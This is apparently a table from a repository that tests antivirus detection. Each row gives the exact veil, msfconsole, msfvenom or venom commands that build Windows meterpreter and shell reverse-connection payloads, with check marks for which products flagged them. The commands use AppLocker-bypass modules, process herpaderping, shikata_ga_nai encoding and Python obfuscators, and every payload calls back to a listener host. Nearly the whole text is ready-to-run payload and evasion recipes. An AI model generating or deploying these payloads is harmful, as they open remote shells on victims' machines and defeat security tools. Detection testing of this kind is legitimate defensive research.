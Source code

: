 | veil            | √           | √                | √    | √    | docker run -it  -v /root/VirusAV/veil-output:/var/lib/veil/output:Z mattiasohlsson/veil     use 1     use go/shellcode_inject/virtual.py     generate     1     use 4     set LHOST 192.168.43.128     set LPORT 51018     set encoder xor     generate     51018          exit |
| veil            | ×           | ×                | ×    | √    | docker run -it  -v /root/VirusAV/veil-output:/var/lib/veil/output:Z mattiasohlsson/veil     use 1     use cs/shellcode_inject/virtual.py     generate     1     use 4     set LHOST 192.168.43.128     set LPORT 51019     set encoder xor     generate     51019          exit |
| msfconsole      | ×           | ×                | ×    | ×    | msfconsole -x "use  windows/applocker_evasion_install_util;\set payload  windows/meterpreter/reverse_tcp;\set lhost 192.168.43.128;\set lport  51020;\set filename 51020.txt;\run;\exit" |
| msfconsole      | ×           | ×                | ×    | ×    | msfconsole -x "use  evasion/windows/applocker_evasion_workflow_compiler;\set payload  windows/meterpreter/reverse_tcp;\set lhost 192.168.43.128;\set lport  51021;\set XML_FILE 51021.xml;\set XOML_FILE 51021.xoml;\run;\exit" |
| msfconsole      | ×           | ×                | ×    | √    | msfconsole -x "use  evasion/windows/applocker_evasion_msbuild;\set payload  windows/meterpreter/reverse_tcp;\set lhost 192.168.43.128;\set lport  51022;\set filename 51022.txt;\run;\exit" |
| msfconsole      | ×           | √                | ×    | ×    | msfconsole -x "use  evasion/windows/applocker_evasion_presentationhost;\set payload  windows/meterpreter/reverse_tcp;\set lhost 192.168.43.128;\set lport  51023;\set CSPROJ_FILE 51023.csproj;\set CS_FILE 51023.xaml.cs;\set  MANIFEST_FILE 51023.manifest;\run;\exit" |
| msfconsole      | ×           | ×                | ×    | ×    | msfconsole -x "use  evasion/windows/applocker_evasion_regasm_regsvcs;\set payload  windows/meterpreter/reverse_tcp;\set lhost 192.168.43.128;\set lport  51024;\set SNK_FILE 51024.snk;\set TXT_FILE 51024.txt;\run;\exit" |
| msfvenom        | ×           | √                | ×    | √    | msfvenom -p  windows/meterpreter/reverse_tcp LHOST=192.168.43.128 LPORT=51025 -f exe -x  csc-v4.0.30319x86.exe -o 51025.exe |
| msfvenom        | ×           | √                | ×    | √    | msfvenom -p  windows/meterpreter/reverse_tcp LHOST=192.168.43.128 LPORT=51026 -f exe -x  csc-v4.0.30319x86.exe -i 10 -b "\x00" -e x86/shikata_ga_nai -o  51026.exe |
| msfconsole      | ×           | √                | ×    | ×    | msfconsole -x "use  evasion/windows/process_herpaderping;\set payload  windows/meterpreter/reverse_tcp;\set lhost 192.168.43.128;\set lport  51027;\set filename 51027.exe;\run;\exit" |
| venom           | ×           | √                | ×    | √    | 2     4     192.168.43.128     51028     windows/meterpreter/reverse_tcp     51028     None-Obfuscation |
| venom           | ×           | ×                | ×    | √    | 2     4     192.168.43.128     51029     windows/meterpreter/reverse_tcp     51029     String Obfuscation（3 s） |
| venom           | ×           | √                | ×    | √    | 2     4     192.168.43.128     51030     windows/shell/reverse_tcp     51030     None-Obfuscation |
| venom           | ×           | √                | ×    | √    | 2     4     192.168.43.128     51031     windows/shell/reverse_tcp     51031     String Obfuscation（3 s） |
| venom           | √           | √                | ×    | ×    | 2     5     192.168.43.128     51032     windows/meterpreter/reverse_tcp     51032 |
| venom           | √           | √                | ×    | ×    | 2     5     192.168.43.128     51033     windows/shell/reverse_tcp     51033 |
| venom           | ×           | ×                | ×    | ×    | 2     3     192.168.43.128     51034     windows/shell/reverse_tcp     51034     default(shellcode.py)python |
| venom           | ×           | ×                | ×    | ×    | 2     3     192.168.43.128     51035     windows/shell/reverse_tcp     51035     pyherion(shellcode.py)obfuscated |
| venom           | ×           | ×                | ×    | ×    | 2     3     192.168.43.128     51036     windows/shell/reverse_tcp     51036     NXcrypt(shellcode.py)obfuscated |
| venom           | ×           | ×                | ×    | ×    | 2     3     192.168.43.128     51037     windows/shell/reverse_tcp     51037     pyinstaller(shellcode.exe)executable |
| venom           | ×           | ×                | ×    | ×    | 2     3     192.168.43.128     51038     windows/meterpreter/reverse_tcp     51038     default(shellcode.py)python |
| venom           | ×           | ×                | ×    | ×    | 2     3     192.168.43.128     51039     windows/meterpreter/reverse_tcp     51039     pyherion(shellcode.py)obfuscated |
| venom           | ×           | ×                | ×    | ×    | 2     3     192.168.43.128     51040     windows/meterpreter/reverse_tcp     51040     NXcrypt(shellcode.py)obfuscated |
| venom           | ×           | ×                | ×    | ×    | 2     3     192.168.43.128     51041     windows/meterpreter/reverse_tcp     51041     pyinstaller(shellcode.exe)executable |
| venom           | √           | √                | √    | √    | 2     15     192.168.43.128     51042     windows/meterpreter/reverse_tcp     51042 |
| venom           | √           | √                | √    | √    | 2     15     192.168.43.128     51043     windows/shell/reverse_tcp     51043 |
| venom           | -           | -                | -    | -    | 2     16     192.168.43.128     51044     windows/meterpreter/reverse_https     51044 |
| venom           | -           | -                | -    | -    | 2     16     192.168.43.128     51045     windows/meterpreter/reverse_winhttps     51045 |